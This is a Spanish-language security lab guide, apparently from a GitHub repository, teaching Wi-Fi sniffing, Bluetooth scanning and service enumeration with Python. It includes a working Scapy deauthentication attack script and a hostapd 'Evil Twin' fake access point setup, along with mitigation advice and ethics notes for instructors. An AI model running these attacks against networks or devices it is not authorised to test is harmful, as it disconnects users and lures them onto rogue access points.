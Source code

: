# **Guía de Laboratorio Práctico: Seguridad en Wi-Fi y Bluetooth**

VULNEX
https://github.com/vulnex/wifi_bluetooth_security

## **Resumen del Laboratorio**
Este laboratorio te guiará a través de pruebas de seguridad en **Wi-Fi** y **Bluetooth** utilizando **Python**. Aprenderás a:
- Capturar paquetes.
- Realizar ataques de desautenticación.
- Escanear dispositivos Bluetooth.
- Probar vulnerabilidades en la comunicación inalámbrica.

---

## **Laboratorio 1: Análisis de Seguridad en Wi-Fi con Scapy**

### **Objetivo**
✅ Capturar y analizar tráfico Wi-Fi.
✅ Probar ataques de desautenticación.
✅ Explorar puntos de acceso falsos.

### **Requisitos Previos**
- Un ordenador con **Linux** y una **tarjeta inalámbrica que soporte modo monitor**.
- Instalar `scapy`:
  ```bash
  pip install scapy
  ```
- Configurar la tarjeta Wi-Fi en **modo monitor**:
  ```bash
  airmon-ng start wlan0
  ```

### **Tarea 1: Captura de Paquetes**
1. Ejecuta el siguiente script para capturar paquetes Wi-Fi:
   ```python
   from scapy.all import *
   
   def manejar_paquete(paquete):
       if paquete.haslayer(Dot11):
           print(paquete.summary())
   
   sniff(iface="wlan0mon", prn=manejar_paquete, store=0)
   ```
2. Observa las **direcciones MAC** y los **tipos de tramas**.
3. Identifica cualquier **dato no cifrado**.

**📌 Pregunta:** ¿Qué tipos de paquetes capturaste? ¿Había paquetes sin cifrar?

---

### **Tarea 2: Ataque de Desautenticación**
⚠ **Advertencia:** Solo prueba esto en tu propia red.

1. Identifica la **dirección MAC del dispositivo objetivo** y la **dirección MAC del router**.
2. Modifica el siguiente script con las direcciones MAC correctas:
   ```python
   def desautenticar(mac_objetivo, mac_router, iface="wlan0mon", cantidad=100):
       from scapy.all import *
       dot11 = Dot11(addr1=mac_objetivo, addr2=mac_router, addr3=mac_router)
       paquete = RadioTap()/dot11/Dot11Deauth(reason=7)
       sendp(paquete, iface=iface, count=cantidad, inter=0.1, verbose=1)
   
   desautenticar("AA:BB:CC:DD:EE:FF", "11:22:33:44:55:66")
   ```
3. Ejecuta el script y observa si el dispositivo objetivo se desconecta.

**📌 Pregunta:** ¿Qué sucede cuando el dispositivo se desautentica? ¿Cómo se puede mitigar este ataque?

---

### **Tarea 3: Punto de Acceso Falso (Ataque Evil Twin)**
1. Crea un **punto de acceso falso** con la siguiente configuración:
   ```bash
   echo "interface=wlan0mon
   ssid=FreeWiFi
   channel=6" > hostapd.conf
   ```
2. Inicia el punto de acceso:
   ```bash
   hostapd hostapd.conf
   ```
3. Intenta conectarte al punto de acceso falso desde otro dispositivo.

**📌 Pregunta:** ¿Cómo pueden los usuarios protegerse contra ataques Evil Twin?

---

## **Laboratorio 2: Pruebas de Seguridad en Bluetooth con Python**

### **Objetivo**
✅ Escanear dispositivos Bluetooth.
✅ Identificar servicios Bluetooth.
✅ Simular ataques Bluetooth.

### **Requisitos Previos**
- Instalar `pybluez`:
  ```bash
  pip install pybluez
  ```
- Habilitar Bluetooth en tu sistema.

### **Tarea 1: Descubrimiento de Dispositivos Bluetooth**
1. Ejecuta el siguiente script:
   ```python
   import bluetooth
   
   print("Escaneando dispositivos Bluetooth...")
   dispositivos = bluetooth.discover_devices(duration=8, lookup_names=True)
   
   for addr, name in dispositivos:
       print(f"Dispositivo encontrado: {name} - {addr}")
   ```
2. Identifica los dispositivos Bluetooth cercanos.
3. Compara los resultados con el escaneo de Bluetooth en tu móvil.

**📌 Pregunta:** ¿Todos los dispositivos Bluetooth son visibles? ¿Por qué algunos pueden estar ocultos?

---

### **Tarea 2: Enumeración de Servicios Bluetooth**
1. Elige una **dirección MAC de dispositivo objetivo** de la Tarea 1.
2. Ejecuta el siguiente script:
   ```python
   mac_objetivo = "XX:XX:XX:XX:XX:XX"
   servicios = bluetooth.find_service(address=mac_objetivo)
   
   if servicios:
       for servicio in servicios:
           print(f"Nombre del servicio: {servicio['name']}")
           print(f"  Host: {servicio['host']}")
           print(f"  Protocolo: {servicio['protocol']}")
           print(f"  Puerto: {servicio['port']}\n")
   else:
       print("No se encontraron servicios.")
   ```
3. Lista los servicios disponibles.

**📌 Pregunta:** ¿Qué tipos de servicios encontraste? ¿Cómo pueden los atacantes explotar los servicios Bluetooth abiertos?

---

## **Discusión y Técnicas de Mitigación**

### **Mitigaciones para Seguridad en Wi-Fi**
✅ Utilizar cifrado **WPA3**.
✅ Activar **aleatorización de dirección MAC**.
✅ Deshabilitar **WPS** y evitar el uso de SSID ocultos.
✅ Usar **Protección de Tramas de Gestión (MFP)** para prevenir ataques de desautenticación.

### **Mitigaciones para Seguridad en Bluetooth**
✅ Mantener el Bluetooth **desactivado** cuando no se use.
✅ Utilizar **lista blanca de dispositivos**.
✅ Emparejar dispositivos en **entornos seguros**.
✅ Utilizar **cifrado Bluetooth Low Energy (BLE)** cuando esté disponible.

---

## **Informe Final**
Al finalizar el laboratorio, redacta un breve **informe de seguridad** que incluya:
- Hallazgos de **captura y ataques Wi-Fi**.
- Observaciones del **escaneo Bluetooth**.
- **Contramedidas** para cada vulnerabilidad.

---

## **Notas del Instructor**
- Asegurar que los estudiantes realicen estas actividades **solo en redes/dispositivos propios**.
- Discutir **implicaciones legales y éticas**.
- Fomentar el pensamiento sobre **aplicaciones de seguridad en el mundo real**.

